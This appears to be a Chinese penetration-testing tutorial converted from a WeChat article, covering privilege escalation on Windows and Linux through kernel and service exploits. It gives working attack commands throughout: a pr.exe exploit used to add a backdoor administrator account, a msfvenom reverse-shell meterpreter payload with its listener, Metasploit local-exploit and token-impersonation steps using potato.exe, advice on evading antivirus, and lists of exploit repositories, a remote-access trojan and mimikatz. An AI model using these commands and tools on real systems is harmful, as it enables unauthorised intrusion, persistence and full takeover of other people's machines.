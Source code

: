 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NVvbbBV77a3J6TyZqvEKvw)

溢出漏洞提权是利用目标操作系统层漏洞进行权限提升，通常步骤是拿到shell后获取目标机器的补丁信息，通过目标的补丁情况获取相对应的漏洞，进行提权  

* * *

**一、Windows 溢出提权**  

=====================

```
`#Windows查看补丁信息，或者直接systeminfo``wmic qfe get Caption,description,hotfixid,installedon`
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjjEu6TUib8SkhXlMKELKp6Ms37QFNsib7X2g46zr20l2BAGb6EkxVXZzA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)  

* * *

**1.提权辅助工具windows-exploit-suggester**  

```
项目地址：https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

Windows-Exploit-Suggester通过下载微软公开漏洞库报道到本地xls文件，然后根据操作系统版本，与systeminfo的信息进行对比对从而判断目标可能存在的溢出漏洞，需要注意的是并非所有输出的漏洞都可以利用，实践出真知。使用方法如下：  

```
`# 更新漏洞库，更新完成后会在统计目录生成包含截至目前windows所有漏洞信息``python2 windows-exploit-suggester.py --update`
```

在目标主机上执行命令systeminfo并将输出的结果保存为一个txt文件。  

```
`# 对比补丁情况得到目标可能存在的漏洞``python2 windows-exploit-suggester.py --database 2020-05-28-mssb.xls  --system systeminfo.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

根据返回的结果和提供的EXP地址进行漏洞利用完成提权。

* * *

  

**Windows提权漏洞利用工具**  

```
项目地址：https://github.com/SecWiki/windows-kernel-exploits/
```

该项目集成了大部分windows溢出漏洞提权的EXP，可直接利用。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

一般来说每个版本的服务都有成功高且稳定的漏洞，遇见这些版本的服务器在没有打补丁的情况下优先使用对应的漏洞提权：

```
`Windows2003：pr、巴西烤肉、2018-8020``Windows2008：利用 ms16-075劫持token(烂土豆)``Windows 2012/2016：ms18-8120`
```

例：PR提权  
拿到shell后上传cmd.exe和pr.exe，在菜刀终端窗口输入命令进行提权，如果目标不允许上传exe文件，这里也可以上传其他的格式。有Windows识别的是文件PE结构，所以并不影响执行：

```
C:\inetpub\target\uploadlabs\upload\pr.exe "whoami"
```

回显system，提权成功

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

利用返回的system权限创建账号：

```
C:\Inetpub\wwwroot\8099\pr.exe "net user xy 123 /add && net localgroup administrators xy /add"
```

提权成功：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

* * *

  

**Linux 溢出提权**
==============

```
`uname -r``#查看内核版本，找对应漏洞`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```
项目地址：https://github.com/SecWiki/linux-kernel-exploits/
```

根据内核版本找对应的漏洞

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

**MSF提权**  
  
 MSF的后渗透模块十分强大，个人以为利用MSF提权相对于一个EXP一个EXP的去打目标主机要显得温柔很多。MSF提权的大致步骤如下：

  

1.生成payload  

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.5 lport=1122 -f exe > /root/a.exe
```

   
2.端口转发  
实战情况下MSF处于本地内网，目标的会话无法直接反弹到本地。利用ngrock等工具实现端口转发，ngrock的使用方法传送门：[MSF配合Ngrock穿透内网](http://mp.weixin.qq.com/s?__biz=MjM5NDUxMTI2NA==&mid=2247484003&idx=1&sn=1f76ac6dc42c90ed728bd28c963d5222&chksm=a687e2ac91f06bbada1f801f2a4d00257b91c9d6df9b96029b13d454f3d402c236cea870056f&scene=21#wechat_redirect)

  
3.payload做免杀  
如果目标主机存在较强的WAF，无法直接建立会话，那么就需要对payload进行免杀。免杀的方法很多，但是强大的不多。推荐shellter：[MSF配合shellter实现360免杀](http://mp.weixin.qq.com/s?__biz=MjM5NDUxMTI2NA==&mid=2247484016&idx=1&sn=48670b928b5664f5d7368fdfca0b7a3a&chksm=a687e2bf91f06ba9500b491884729a87389d5a38d76f9f6488219286c07eed9ea34e196ced3f&scene=21#wechat_redirect)  
  
4.建立监听  

```
`use exploit/multi/handler``set payload windows/meterpreter/reverse_tcp``set lhost 192.168.1.5``set lport 1122``run`
```

5.在目标机器上运行生成的payload，主机上线

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

6.拿到会话开始提权

```
`#查看权限``getuid``#尝试自动提权，一般都没法成功``getsystem``#挂起会话``background``#查看会话列表``sessions -l`
```

* * *

* * *

  

**MSF漏洞发现模块**
-------------

```
`#查找补丁缺失模块，会返回一些漏洞可直接利用``use post/windows/gather/enum_patches``set session x``run``#这个模块慢一点，但是相对上面那个更稳定``use post/multi/recon/local_exploit_suggester``set session x``run`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

从返回的漏洞列表寻找最合适的漏洞进行利用，例如：

```
`use exploit/windows/local/ms15_051_client_copy_image``set session 3``run`
```

返回高权限会话，提权成功：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  
  

------

**MSF烂土豆劫持token提权（ms16_075）**
-----------------------------

```
`session -i 3``#调用session``upload /root/potato.exe` `#上传potato``dir``use incognito` `#调用token劫持模块``list_tokens -u``#查看可用的session``execute -cH -f ./potato.exe``#执行（没返回就多搞几次）``impersonate_token "NT AUTHORITY\SYSTEM"``#导入权限，成功提权。会返回一个system权限的会话``#如果杀软对potato.exe 下手，只有改后缀或者找免杀版本`
```

* * *

  

```
`# 常见漏洞EXP网站``https://exploit-db.com``https://packetstormsecurity.com``https://packetstormsecurity.com/search/?q=ms15-057``https://www.securityfocus.com/``https://www.securityfocus.com/bid``http://1337day.com``http://0day.today``http://seclists.org/fulldisclosure``http://exploitsearch.net``http://www.securiteam.com``http://metasploit.com/modules``http://securityreason.com``https://cxsecurity.com/exploit``http://securitytracker.com`
```

* * *

```
`#提权项目合集：``https://github.com/lyshark/Windows-exploits``https://github.com/SecWiki/windows-kernel-exploits``https://github.com/klsfct/getshell``https://github.com/ianxtianxt/win-exp-``https://github.com/uknowsec/SweetPotato``https://github.com/uknowsec/getSystem``https://github.com/s0wr0b1ndef/Linux-Kernel-Exploites`
```

* * *

```
`#其他``https://github.com/quasar/QuasarRAT/releases``https://github.com/gentilkiwi/mimikatz/releases`
```

* * *

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)